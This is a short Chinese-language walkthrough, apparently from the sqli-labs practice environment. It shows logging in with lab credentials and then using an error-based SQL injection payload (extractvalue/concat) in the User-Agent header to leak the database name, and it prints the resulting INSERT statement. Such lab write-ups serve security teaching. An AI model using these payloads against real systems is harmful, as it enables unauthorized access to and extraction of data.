 ```php
```

先用已知账号密码 test:zf1yolo 登录，看看 ip 和 ua头 被写进了 uagents 表中

<img src="图片\Snipaste_2023-01-22_20-54-18.png" alt="Snipaste_2023-01-22_20-54-18" style="zoom:67%;" />

<img src="图片\Snipaste_2023-01-22_20-54-50.png" alt="Snipaste_2023-01-22_20-54-50" style="zoom: 80%;" />

再配合报错注入

```
1',1,extractvalue(1,concat(0x7e,(database()),0x7e)))#
```

拼接后的 sql 语句为

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,extractvalue(1,concat(0x7e,(database()),0x7e)))#', '$IP', $uname)
```

<img src="图片\Snipaste_2023-01-22_21-27-25.png" alt="Snipaste_2023-01-22_21-27-25" style="zoom:80%;" />
